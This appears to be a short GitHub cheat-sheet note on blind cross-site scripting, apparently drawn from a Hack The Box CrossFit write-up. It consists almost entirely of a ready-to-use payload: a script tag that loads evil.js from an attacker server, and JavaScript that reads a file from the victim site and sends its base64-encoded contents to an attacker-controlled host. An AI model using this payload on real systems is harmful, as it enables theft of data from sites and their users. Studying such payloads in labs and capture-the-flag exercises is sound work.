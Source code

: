 ## BXSS file

```<script src="http://yourServer:PORT/evil.js"></script>```



### Content of JS file

```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://Victim.com/path/file.php', true);
xhr.setRequestHeader('Content-type', 'application/x-www-urlencoded');

xhr.onload = function () {
	var request = new XMLHttpRequest();
	request.open('GET', 'http://YorServerHere:PORT/?code=' + btoa(xhr.responseText), true);
	request.send();
};

xhr.send();

```


reference: https://xakep.ru/2021/03/22/htb-crossfit-xss/
